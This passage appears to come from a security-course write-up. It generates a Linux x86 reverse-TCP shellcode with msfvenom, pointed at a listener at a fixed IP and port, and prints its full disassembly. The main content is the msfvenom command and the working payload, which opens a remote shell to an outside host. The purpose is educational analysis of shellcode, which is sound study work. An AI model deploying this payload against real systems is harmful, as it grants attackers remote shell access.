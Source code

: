 ```
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

With `ndisasm`, we can disassemble the shellcode produced by msfvenom:
```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.23.10.37 LPORT=4444 | ndisasm -b32 - > shell_reverse_tcp.asm
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ cat shell_reverse_tcp.asm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  68AC170A25        push dword 0x250a17ac
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```
